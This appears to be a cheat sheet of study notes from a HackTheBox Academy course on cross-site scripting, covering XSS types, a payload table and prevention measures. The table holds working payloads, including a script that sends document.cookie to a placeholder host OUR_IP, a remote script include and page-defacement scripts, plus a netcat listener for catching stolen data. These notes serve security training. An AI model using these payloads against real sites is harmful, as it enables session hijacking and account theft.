 ## Types of XSS

There are three main types of XSS vulnerabilities:

| Type | Description |
| ----- | ----- |
| Stored (Persistent) XSS | The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments) |
| Reflected (Non-Persistent) XSS | Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message) |
| DOM-based XSS	Another Non-Persistent | XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags) |


## Commands

| Code | Description |
| ----- | ----- |
| **XSS Payloads** |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |
| **Commands** |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80 ` | Start `PHP` server |

## Prevention

Front-end + Back-end = Input Validation + Input Sanitization (=DOMPurify Library)

In addition to the above, there are certain back-end web server configurations that may help in preventing XSS attacks, such as:

- Using HTTPS across the entire domain
- Using XSS prevention headers, like X-XSS-Protection.
- Using the appropriate Content-Type for the page, like X-Content-Type-Options=nosniff.
- Using Content-Security-Policy options, like script-src 'self', which only allows locally hosted scripts.
- Using the HttpOnly and Secure cookie flags to prevent JavaScript from reading cookies and only transport them over HTTPS.

In addition to the above, having a good Web Application Firewall (WAF) can significantly reduce the chances of XSS exploitation, as it will automatically detect any type of injection going through HTTP requests and will automatically reject such requests.
